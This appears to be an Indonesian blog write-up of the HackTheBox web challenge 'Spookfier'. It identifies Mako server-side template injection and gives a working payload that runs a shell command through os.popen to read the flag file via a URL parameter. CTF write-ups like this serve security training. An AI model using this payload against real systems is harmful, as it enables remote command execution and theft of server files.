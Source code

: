 ```yaml
---
title: "HackTheBox - Spookfier"
date: 2023-12-29 18:34:00 +0700
categories: [HackTheBox, Challenges]
tags: [very easy, web]
---
```


**Spookfier** ialah salah satu tantangan kategori web dari situs HackTheBox, Gunship ini sebenarnya tantangan lama tapi karena saya belum coba, jadi saya kerjakan aja. Ini perjalanan/panduan saya. Oh iya, disini kita akan mempelajari tentang exploit, SSTI, dll.

## Introduction

- Munculkan mesin, hahaha....
- Dan download file-nya

## Enumeration

Pokoknya exploitnya [SSTI Mako](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako)

```bash
${self.module.runtime.util.os.popen("cat ../flag.txt").read()}
```

> tambahkan di belakang urlnya, habis text=
{: .prompt-info}